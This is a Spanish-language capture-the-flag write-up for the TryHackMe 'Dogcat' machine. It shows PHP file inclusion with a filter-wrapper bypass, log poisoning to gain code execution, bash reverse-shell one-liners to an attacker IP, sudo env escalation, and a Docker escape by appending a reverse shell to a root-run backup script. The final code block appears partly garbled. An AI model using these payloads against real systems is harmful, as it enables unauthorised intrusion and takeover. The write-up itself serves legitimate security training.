 ```yaml
---
title: Dogcat - TryHackMe
layout: post
permalink: /writeups/THM/dogcat
date: 2025-04-07 11:00:00 -0000
categories: [Laboratorios]
tags: [TryHackMe]
description: >
  Write up en español para Dogcat - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -sV -Pn -T4 -O 10.10.54.149
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 16:16 CEST
Nmap scan report for 10.10.54.149
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal web

![alt text](/assets/img/writeups/tryhackme/dogcat/image.png)

Al dar click en **dog** o **cat** nos muestra una imagen en consecuencia.

En el parámetro php que indica dog/cat tenemos un potencial path traversal.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-1.png)

El problema es que parece estar añadiendo la terminación .php al final del parámetro por lo que no encuentra el archivo y por eso tenemos error.

Aprovechando que podemos pasar argumentos antes del parámetro podemos intentar exfiltrar datos a través de un [wrapper PHP](https://medium.com/@robsfromashes/php-wrapper-and-local-file-inclusion-2fb82c891f55).

![alt text](/assets/img/writeups/tryhackme/dogcat/image-2.png)

Aunque el concepto es correcto y debería mostrar el contenido del index.php codificado en base64 indica que no encuentra el archivo.
Bien, el problema es dado por como PHP trata de introducir la extensión .php al final del parámetro.

### ¿Qué es `&ext=` y por qué hace que funcione?

Ese `&ext=` **no forma parte del wrapper**,es un **"bypass" para el parseo del parámetro `view`** en la aplicación.

- En la app PHP, probablemente hay algo como esto:

```php
include($_GET['view'] . '.php');
```

- Si pasas:

```
?view=php://filter/read=convert.base64-encode/resource=etc/passwd
```

PHP lo intentará incluir como:

```
include("php://filter/read=convert.base64-encode/resource=etc/passwd.php");
```

Ese `.php` final rompe el wrapper porque **no puedes añadir `.php` a un stream de filtro como `php://filter`**.

Entonces al añadir `&ext=`, el código está haciendo algo como esto:

```php
include($_GET['view'] . $_GET['ext']);
```

Y puedes entonces controlar **qué extensión se le pone (o incluso ninguna)**. Así:

```
?view=php://filter/read=convert.base64-encode/resource=/var/www/html/index&ext=
```

→ Esto se concatena como:

```php
include("php://filter/read=convert.base64-encode/resource=/var/www/html/index");
```

Y eso **ya es válido**, porque no rompe el esquema del wrapper.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-3.png)

Este archivo no muestra datos demasiado útiles solo que no parece haber usuarios interesantes en el sistema.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-4.png)


> Nota: Parece que el wrapper no es necesario ya que el único problema era la extensión que añadía al final del parámetro por lo que no es necesario codificar en base64.
{: .prompt-info }

![alt text](/assets/img/writeups/tryhackme/dogcat/image-5.png)

Lo importante aquí es que podemos visualizar logs del sistema, lo que hace a la máquina susceptible de un log poisoning.

Para aprovechar esto vamos a inyectar codigo PHP en el user agent de una de nuestras peticiones para crear un parámetro nuevo en el index que nos permita ejecutar código.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-6.png)

Ahora al volver a ejecutar la petición para extraer el contenido de los logs vemos que nos da un error de que no puede ejecutar el comando en blanco, esto es buena señal.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-7.png)

Si le pasamos el parámetro cmd por url.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-8.png)

Tenemos RCE.

## Reverse shell

```bash
bash -c 'bash -i >& /dev/tcp/10.23.66.202/4444 0>&1'
```

Lo codificamos en URL.

```plaintext
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.23.66.202%2F4444%200%3E%261%27
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-9.png)

![alt text](/assets/img/writeups/tryhackme/dogcat/image-10.png)

Como la máquina no tiene python para estabilizar un poco la shell ejecutamos:

```bash
script /dev/null -c bash
export TERM=xterm
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-11.png)

## Escalado de privilegios

Si recordamos en el sistema no hay usuarios creados.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-12.png)

Por lo que vamos directamente a intentar escalar privilegios a root.

Por suerte podemos ejecutar `sudo -`

```bash
www-data@c29ed5a125d4:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on c29ed5a125d4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on c29ed5a125d4:
    (root) NOPASSWD: /usr/bin/env
```

env es una utilidad estándar en Unix que:

- Ejecuta un programa en un entorno modificado.

- Se suele usar para lanzar scripts con el intérprete correcto.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-13.png)

En este caso pues la escalada es bastante sencilla ya que podemos ejecutar el comando `env` con el parámetro `bash` y obtener un shell. Consultamos [GTOBins](https://gtfobins.github.io/gtfobins/env/)

```bash
sudo /usr/bin/env /bin/bash
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-14.png)

Las tres primeras flags las tenemos aquí.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-15.png)

La última flag es algo "compleja".

Si nos fijamos (además de que lo dice en el reto) el id del host donde somos root es un string id similar a los que genera Docker. Por lo que estamos en un entorno de Docker.

Para escapar podemos navegar a `/opt/backups`.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-16.png)

Encontramos un script que hace un backup completo del contenedor por lo que debe estar siendo ejecutado por el usuario root del host viendo la ruta en la que se encuentra este.

```bash
 echo "bash -i >& /dev/tcp/10.23.66.202/9999 0>&1" >> backup.sh
" > backup.sh >& /dev/tcp/10.23.66.202/9999 0>&1"
``` 

![alt text](/assets/img/writeups/tryhackme/dogcat/image-17.png)

![alt text](/assets/img/writeups/tryhackme/dogcat/image-18.png)


